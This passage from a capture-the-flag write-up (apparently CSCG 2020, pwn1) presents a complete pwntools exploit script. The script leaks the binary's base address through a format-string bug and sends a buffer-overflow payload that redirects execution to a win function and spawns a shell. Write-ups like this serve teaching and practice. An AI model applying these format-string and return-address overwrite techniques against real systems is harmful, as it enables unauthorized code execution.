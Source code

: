 and now we put this all together and get our final exploit script:

```Python
from pwn import *
import struct

p = remote('127.0.0.1', 1024)
print(p.recvline()) # Enter your witch name:\n

base_address_leak_payload = b'%39$p'
p.sendline(base_address_leak_payload)

print(p.recvline().decode('utf-8')) # ┌───────────────────────┐
print(p.recvline().decode('utf-8')) # │ You are a Hufflepuff! │
print(p.recvline().decode('utf-8')) # └───────────────────────┘

memory_leak = p.recvline().split(b' ') # [0x?????????????b21, 'enter', 'your', 'magic', 'spell:\n']
ret_addr = int(memory_leak[0], 16) # converting from string to hex
base_address = ret_addr - 0xb21
print('base_address: {0}'.format(hex(base_address)))

WINgardium_leviosa_location = struct.pack('Q', base_address + 0x9ec)
AAAAAAAA_ret_location = struct.pack('Q', base_address + 0xaf3)
shell_payload = b"Expelliarmus\x00" + b"A"*251 + AAAAAAAA_ret_location + WINgardium_leviosa_location

input('attach gdb')

p.sendline(shell_payload)
p.interactive()
```

When we run this script again , **it spawns a shell**:

![alt text](https://github.com/chikizikikato/CTFWriteUps/blob/master/CSCG2020/pwn1/successfull_exploit.png?raw=true "successfull exploit")

Now you only have to change the server and port address and you are good to go.
